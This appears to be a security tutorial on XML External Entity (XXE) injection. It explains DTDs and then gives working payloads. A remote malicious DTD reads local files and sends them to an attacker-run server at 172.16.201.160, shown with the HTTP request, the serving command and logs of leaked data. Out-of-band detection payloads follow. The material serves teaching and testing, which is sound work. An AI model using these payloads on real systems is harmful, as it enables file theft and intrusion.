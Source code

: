 #### 1.1. Intro

- web applications that parse XML must disable the processing of external entities

- external XML entities (XXE) can instruct the parser to perform other actions than indented by design, such as:
  - retrieval of local files
  - processing of remote DTD (`<!DOCTYPE` definition) form HTTP/FTP

- XXE allows an attacker to exfiltrate sensitive information from the system (private SSL/SSH keys, source-code, configuration files, credentials)

- this attack can use the same exploitation vectors as SSRF
  - `file://`, `http://`, `https://`, `ftp://`

- it is possible that some frameworks will automatically parse XML (w/ `Content-Type: text/xml` or `Content-Type: application/xml`)


#### 1.2. About DTD

The Document Type Definition (DTD) enforces the types of elements and attributes for an XML document to be valid.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person SYSTEM "person.dtd">
<person>
  <firstname>Thomas</firstname>
  <lastname>Jefferson</lastname>
</person>
```

And `person.dtd`:
```xml
<!DOCTYPE person
[
  <!ELEMENT person (firstname,lastname)>
  <!ELEMENT firstname (#PCDATA)>
  <!ELEMENT lastname (#PCDATA)>
]>
```

The `person.dtd` enforces the XML structure as follows:

`<!DOCTYPE person` - root element must be `person`
`<!ELEMENT person (firstname,lastname)>` - `person` element must contain `firstname` and `lastname` elements
`<!ELEMENT firstname (#PCDATA)>` - parseable character data
`<!ELEMENT lastname (#PCDATA)>` - parseable character data

Example with internal DTD declaration:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY entity_b "test2">
]>
<data>
  <a>test1</a>
  <b>&entity_b;</b>
</data>
```
When the XML is parsed the `<b>` element will appear as `<b>test2</b>` as a result of the local `entity_b` declaration (`<!ENTITY entity_b "test2">`) and usage (`<b>&entity_b;</b>`).

Local entity declaration:
```xml
<!ENTITY entity-name "entity-value">
```

Remote entity declaration:
```xml
<!ENTITY entity-name SYSTEM "URI/URL">
```


#### 1.3. XXE in action

Request contains XML with external DTD:
```
POST /login HTTP/1.1
Content-Type: text/xml
[FORMATTING CUT]

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/dtd">
<x>&trigger;</x>
```

On remote server `data` DTD file:

```
<!ENTITY % f SYSTEM "file:///">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://172.16.201.160:8888/?%f;'>">
%all;
```
Note: 
- `python -m SimpleHTTPServer 8888` to serve this file
- once loaded, the parser will process all the entities specified in the DTD
- the DTD declares two external entities
  - `<!ENTITY % f` - will engage the `file:///` URI handler to read the contents of `/` root system directory
  - `<!ENTITY % all` - declares another entity (`trigger`) that exfiltrates the data loaded in `% f` 
  - `%all;` triggers the chained `all` and `f` entities
- the `trigger` entity is called in the user-request via `<x>&trigger;</x>`


HTTP logs:
```
172.16.201.246 - - [NOLOGS] "GET /dtd HTTP/1.1" 200 -
172.16.201.246 - - [NOLOGS] "GET /?bin%0Aboot%0Adev%0Aetc%0Ahome%0Ainit%0Alib%0Alinuxrc%0Amnt%0Aopt%0Aproc%0Aroot%0Arun%0Asbin%0Asys%0Atmp%0Ausr%0Avar%0A HTTP/1.1" 200 -
```


#### 1.4. Detection

The following payloads will only attempt to make an HTTP request to a remote server (similar to SSRF).

Payload 1 - call remote server from DTD:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
	<!ENTITY call SYSTEM "http://172.16.201.160:8888/TEST">
]>
<test>&call;</test>
```

Payload 2 - call remote server to fetch DTD (and call `go` entity inside the remote DTD once loaded):
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/TEST">
<data>&go;</data>
```
